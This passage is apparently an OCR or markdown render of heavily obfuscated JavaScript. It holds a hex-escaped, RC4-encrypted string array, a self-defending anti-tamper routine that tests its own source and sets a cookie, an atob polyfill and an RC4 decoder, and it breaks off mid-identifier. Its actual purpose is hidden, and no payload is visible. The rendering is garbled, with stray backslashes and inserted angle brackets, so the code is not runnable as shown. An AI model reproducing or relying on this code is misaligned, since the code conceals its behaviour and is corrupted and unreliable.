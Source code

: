 x4c\x43\x6c\x63\x4f\x5a','\x4c\x4d\x4b\x62\x41\x47\x48\x44\x76\x79\x77\x3d','\x51\x63\x4b\x64\x77\x70\x50\x44\x75\x73\x4b\x79','\x66\x38\x4f\x4a\x77\x71\x45\x76\x4f\x73\x4f\x34\x45\x73\x4f\x2f\x4d\x51\x3d\x3d','\x4c\x73\x4b\x62\x77\x6f\x38\x3d','\x4c\x46\x58\x44\x67\x51\x3d\x3d','\x77\x37\x58\x44\x70\x53\x34\x3d','\x58\x38\x4f\x33\x53\x73\x4b\x44\x77\x36\x4a\x2f\x77\x70\x6a\x43\x6f\x45\x51\x3d','\x4d\x73\x4f\x57\x77\x70\x6e\x43\x6f\x63\x4b\x42\x5a\x58\x51\x69\x41\x77\x3d\x3d','\x35\x34\x71\x44\x35\x70\x36\x71\x35\x59\x32\x63\x37\x37\x32\x59\x77\x36\x6e\x44\x6b\x75\x53\x38\x72\x4f\x57\x73\x73\x65\x61\x64\x6e\x65\x57\x39\x6b\x75\x65\x70\x76\x65\x2b\x39\x76\x75\x69\x38\x72\x65\x69\x73\x6e\x65\x61\x58\x6c\x4f\x61\x50\x6d\x4f\x61\x49\x6a\x4f\x53\x36\x68\x2b\x65\x61\x76\x4f\x57\x32\x6b\x75\x53\x38\x6f\x77\x3d\x3d','\x35\x59\x75\x6a\x36\x5a\x69\x68\x35\x34\x75\x76\x35\x70\x36\x41\x35\x59\x36\x34\x37\x37\x32\x7a\x77\x34\x56\x53\x35\x4c\x79\x55\x35\x61\x79\x56\x35\x70\x32\x36\x35\x62\x32\x2b\x35\x36\x6d\x30','\x77\x72\x59\x43\x77\x35\x55\x3d','\x4c\x38\x4b\x54\x41\x55\x6e\x44\x6f\x51\x3d\x3d','\x77\x36\x7a\x44\x68\x6a\x62\x44\x68\x38\x4f\x6d','\x4f\x48\x54\x44\x70\x58\x66\x44\x67\x51\x3d\x3d','\x54\x38\x4f\x35\x61\x67\x3d\x3d','\x56\x54\x6e\x44\x72\x77\x3d\x3d','\x4d\x63\x4f\x62\x77\x6f\x74\x44\x49\x6a\x39\x37\x61\x73\x4f\x5a\x77\x34\x63\x55\x77\x34\x4c\x44\x6b\x63\x4b\x70\x43\x38\x4f\x6a','\x62\x63\x4f\x2b\x77\x70\x62\x43\x68\x38\x4f\x56\x62\x38\x4f\x4c\x77\x34\x66\x43\x74\x63\x4f\x33\x66\x53\x31\x49\x77\x71\x35\x65\x77\x72\x5a\x41\x61\x4d\x4f\x34\x50\x63\x4b\x62\x77\x6f\x67\x55\x48\x73\x4f\x75\x77\x71\x2f\x43\x74\x55\x73\x62\x63\x73\x4f\x2f\x43\x77\x62\x43\x71\x63\x4b\x35\x44\x63\x4b\x30\x4e\x55\x73\x6c\x77\x6f\x74\x42\x57\x56\x39\x64\x64\x31\x33\x43\x76\x30\x33\x44\x71\x68\x4c\x44\x67\x55\x49\x54\x44\x52\x70\x72\x41\x6c\x64\x69\x57\x63\x4b\x69','\x41\x6c\x46\x43\x4d\x77\x3d\x3d','\x53\x63\x4f\x78\x54\x38\x4b\x50\x77\x36\x6f\x3d','\x77\x37\x62\x44\x6d\x43\x72\x44\x6d\x38\x4f\x6d','\x43\x7a\x76\x43\x6e\x41\x3d\x3d','\x62\x63\x4f\x4f\x4f\x77\x3d\x3d'];(function(\_0x3dfc24,\_0x4bf57f){var _0x479f23=function(\_0x151040){while(--\_0x151040){\_0x3dfc24['push'](<_0x3dfc24['shift']()>);}};var _0x2667ef=function(){var _0x19882c={'data':{'key':'cookie','value':'timeout'},'setCookie':function(\_0x38a396,\_0x198d9c,\_0x53d2fc,\_0x40f314){\_0x40f314=\_0x40f314||{};var _0x1d0db3=\_0x198d9c+'='+\_0x53d2fc;var _0x1c23d9=0x0;for(var _0x1c23d9=0x0,\_0x3c6a59=\_0x38a396['length'];\_0x1c23d9<\_0x3c6a59;\_0x1c23d9++){var _0x1a8423=\_0x38a396[_0x1c23d9];\_0x1d0db3+=';\x20'+\_0x1a8423;var _0x504757=\_0x38a396[_0x1a8423];\_0x38a396['push'](_0x504757);\_0x3c6a59=\_0x38a396['length'];if(\_0x504757!==!![]){\_0x1d0db3+='='+\_0x504757;}}\_0x40f314['cookie']=\_0x1d0db3;},'removeCookie':function(){return'dev';},'getCookie':function(\_0x5ac218,\_0x334887){\_0x5ac218=\_0x5ac218||function(\_0x16cbc0){return _0x16cbc0;};var _0x1c3d23=\_0x5ac218(new RegExp('(?:^|;\x20)'+\_0x334887['replace'](/([.$?*|{}()[]\/+^])/g,'$1')+'=([^;]*)'));var _0x1aa17e=function(_0x39f8d3,_0x4de5a6){_0x39f8d3(++_0x4de5a6);};_0x1aa17e(_0x479f23,_0x4bf57f);return _0x1c3d23?decodeURIComponent(_0x1c3d23[0x1]):undefined;}};var _0x17cb94=function(){var _0x4d8f44=new RegExp('\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*[\x27|\x22].+[\x27|\x22];?\x20*}');return _0x4d8f44['test'](_0x19882c['removeCookie']['toString']());};_0x19882c['updateCookie']=_0x17cb94;var _0x30b075='';var _0x3744e8=_0x19882c['updateCookie']();if(!_0x3744e8){_0x19882c['setCookie'](['*'],'counter',0x1);}else if(_0x3744e8){_0x30b075=_0x19882c['getCookie'](null,'counter');}else{_0x19882c['removeCookie']();}};_0x2667ef();}(_0x1491,0x7b));var _0x1f81=function(_0x2c0c46,_0x5b2ac3){_0x2c0c46=_0x2c0c46-0x0;var _0x3b87dc=_0x1491[_0x2c0c46];if(_0x1f81['initialized']===undefined){(function(){var _0xb97df9=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x1acb97='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0xb97df9['atob']||(_0xb97df9['atob']=function(_0x3fcea8){var _0x1ee370=String(_0x3fcea8)['replace'](/=+$/,'');for(var _0x1d8de6=0x0,\_0x22ae7a,\_0x2206eb,\_0x131a86=0x0,\_0x675d6d='';\_0x2206eb=\_0x1ee370['charAt'](_0x131a86++);~\_0x2206eb&&(\_0x22ae7a=\_0x1d8de6%0x4?\_0x22ae7a*0x40+\_0x2206eb:\_0x2206eb,\_0x1d8de6++%0x4)?\_0x675d6d+=String['fromCharCode'](0xff&\_0x22ae7a>>(-0x2*\_0x1d8de6&0x6)):0x0){\_0x2206eb=\_0x1acb97['indexOf'](_0x2206eb);}return _0x675d6d;});}());var _0x3e5e2d=function(\_0x17adfb,\_0x13df9b){var _0x377757=[],\_0xaaa979=0x0,\_0x3b3a8a,\_0x4dab2b='',\_0x25adf3='';\_0x17adfb=atob(\_0x17adfb);for(var _0x3c558f=0x0,\_0x1d2ebf=\_0x17adfb['length'];\_0x3c558f<\_0x1d2ebf;\_0x3c558f++){\_0x25adf3+='%'+('00'+\_0x17adfb['charCodeAt'](_0x3c558f)['toString'](0x10))['slice'](-0x2);}\_0x17adfb=decodeURIComponent(\_0x25adf3);for(var _0x1f2b2f=0x0;\_0x1f2b2f<0x100;\_0x1f2b2f++){\_0x377757[_0x1f2b2f]=\_0x1f2b2f;}for(\_0x1f2b2f=0x0;\_0x1f2b2f<0x100;\_0x1f2b2f++){\_0xaaa979=(\_0xaaa979+\_0x377757[_0x1f2b2f]+\_0x13df9b['charCodeAt'](_0x1f2b2f%_0x13df9b['length']))%0x100;\_0x3b3a8a=\_0x377757[_0x1f2b2f];\_0x377757[_0x1f2b2f]=\_0x377757[_0xaaa979];\_0x377757[_0xaaa979]=\_0x3b3a8a;}\_0x1f2b2f=0x0;\_0xaaa979=0x0;for(var _0x2e1891=0x0;\_0x2e1891<\_0x17adfb['length'];\_0x2e1891++){\_0x1f2b2f=(\_0x1f2b2f+0x1)%0x100;\_0xaaa979=(\_0xaaa979+\_0x377757[_0x1f2b2f])%0x100;\_0x3b3a8a=\_0x377757[_0x1f2b2f];\_0x377757[_0x1f2b2f]=\_0x377757[_0xaaa979];\_0x377757[_0xaaa979]=\_0x3b3a8a;\_0x4dab2b+=String['fromCharCode'](<_0x17adfb['charCodeAt'](_0x2e1891)^_0x377757[(_0x377757[_0x1f2b2f]+_0x377757[_0xaaa979])%0x100]>);}return _0x4dab2b;};\_0x1f81['rc4']=\_0x3e5e2d;\_0x1f81['data']={};\_0x1f81['initialized']=!![];}var _0x7cb0ee=\_0x1f81['data'][_0x2c0c46];if(\_0x7cb0ee===undefined){if(\_0x1f81['once']===undefined){var _0x6c2e85=function(\_0x3bde69){this['r